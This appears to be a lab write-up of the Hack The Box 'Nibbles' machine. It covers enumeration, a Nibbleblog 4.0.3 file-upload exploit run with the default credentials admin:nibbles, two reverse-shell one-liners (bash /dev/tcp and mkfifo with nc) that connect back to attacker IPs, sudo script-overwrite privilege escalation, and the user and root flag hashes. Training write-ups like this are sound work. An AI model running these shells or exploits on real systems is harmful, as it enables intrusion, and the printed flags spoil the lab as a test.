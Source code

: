 # Time: 11:55am - 2:10pm

# Given

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

## IP: 10.10.10.75

# Steps

## Initial Enumeration

- $ nmap -sCV -p- 10.10.10.75 -oN enum/nmap.out
    - 2 open ports tcp 22 (ssh), 80 (http)
    - Server: Apache/2.4.18 (Ubuntu)
    - OS: Linux
- SSH needs creds, so focus on enumerating HTTP server
    - whatweb wasn't much help
    - manual enumeration showed a comment with a link called "/nibbleblog"
- nibbleblog shows a blog site.
    - Source code doesn't have much info either
    - Some links like feed seem to be PHP files
    - directory enumeration with feroxbuster shows more php files
- Nibbleblog version can be found at ip/nibbleblog/README

## Initial Foothold

- Googling for the nibbleblog version gives the cve
- Downloaded python file for the RCE exploit
- Run exploit to get inital foothold
    - `python3 nibbleblog_4.0.3.py -t <http://10.10.10.75/nibbleblog/admin.php> -u admin -p nibbles -shell`
- Run code to initiate reverse shell to attack host
    - `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1’`

## Local Enumeration

- `sudo -l` works here. A better way would have been using: **`find / -perm -4000 -type f -exec ls -la {} \\; 2>/dev/null`** .
- User Nibbler can run a certain file as root `/user/home/nibbler/personal/stuff/monitor.sh`

## Privilege Escalation

### Quick and Dirty

- Since user can run [`monitor.sh`](http://monitor.sh) as root, we can create a file with the same name and put it in the same folder then run it as root.

```bash
#! /bin/bash

/bin/bash -p
```

- Give it permissions to execute: `chmod +x ./monitor.sh`
- Run the file as sudo `sudo /home/nibbler/personal/stuff/monitor.sh`
- This opens a root shell.

### Cleaner

- There’s a zip file with the [`monitor.sh`](http://monitor.sh) file inside. Add the code to connect to our attacking host in a bash terminal.
- You can have a netcat listener running to catch that ping.

```bash
# Target Machine
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

```bash
# Attacking Machine
root@kali# nc -lnvp 8083
listening on [any] 8083 ...
connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
# id
uid=0(root) gid=0(root) groups=0(root)
```

- Resource : [https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc](https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html#privesc)

# Findings

- Most directories are open to view
- Config.xml - [](http://10.10.10.75/nibbleblog/content/private/config.xml)[http://10.10.10.75/nibbleblog/content/private/users.xml](http://10.10.10.75/nibbleblog/content/private/users.xml)
    - Possible username of site admin: admin
- Admin page: ip/nibbleblog/admin.php
- Nibbleblog version is 4.0.3
    - This version is vulnerable to arbitrary file upload CVE-2015-6967
- Inital foothold user is Nibbler

# Creds

- Default web admin creds are `admin:nibbles`

# Flags

- user.txt - 275fe786daa51e9d7231b202bee8d88d
- root.txt - 49e2d3850b93b08c190ddc59995273a9

# Proof

![image.png](../../Assets/nibbles1.png)